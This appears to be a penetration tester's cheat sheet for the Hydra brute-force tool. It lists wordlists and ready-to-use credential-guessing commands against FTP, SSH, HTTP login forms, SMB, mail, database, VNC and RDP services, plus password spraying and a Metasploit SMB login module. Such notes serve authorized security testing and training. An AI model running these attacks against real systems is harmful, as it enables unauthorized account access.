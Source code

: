 
> [!NOTE] NOTE
> `Medusa` works the exact same way command wise

### Useful Wordlists
- /usr/share/seclists/Passwords/darkweb2017-top10000.txt
- ~/rockyou.txt
- 
### Common Services
FTP
```shell
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt ftp://192.168.1.100
```
SSH
```shell
hydra -l root -P ~/opt/wordlists/2023-200_most_used_passwords.txt ssh://192.168.1.100
```
HTTP Authentication
```shell
hydra -L usernames.txt -P passwords.txt www.example.com http-get
```
HTTP GET/POST
```shell
hydra [options] target http-post-form "path:params:condition_string"

hydra -l admin -P /path/to/password_list.txt monitoring.inlanefreight.local http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```
SMB
```bash
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt smb://192.168.1.100
```
SMBv3
```bash
msf6 > use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
```
SMTP, POP3, IMAP
```shell 
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt smtp://mail.server.com
hydra -l user@adot8.com -P ~/opt/wordlists/2023-200_most_used_passwords.txt pop3://mail.server.com
hydra -l user@adot8.com-P ~/opt/wordlists/2023-200_most_used_passwords.txt imap://mail.server.com
```
MySQL, MSSQL
```shell 
hydra -l root -P ~/opt/wordlists/2023-200_most_used_passwords.txt mysql://192.168.1.100
hydra -l sa -P ~/opt/wordlists/2023-200_most_used_passwords.txt mssql://192.168.1.100
```
VNC, RDP
```shell
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt vnc://192.168.1.100
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt rdp://192.168.1.100
```
### Additional Options
Target multiple targets (password spray scenario)
```shell
hydra -l root -p toor -M targets.txt ssh
```
Non standard port `-s`
```shell
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
```
Web app login page, successful login code 302 (moved)
```shell
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```
Imagine youre testing `RDP` and you know the username is `Administrator` and the password consists of 6 to 8 characters...
```shell
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```
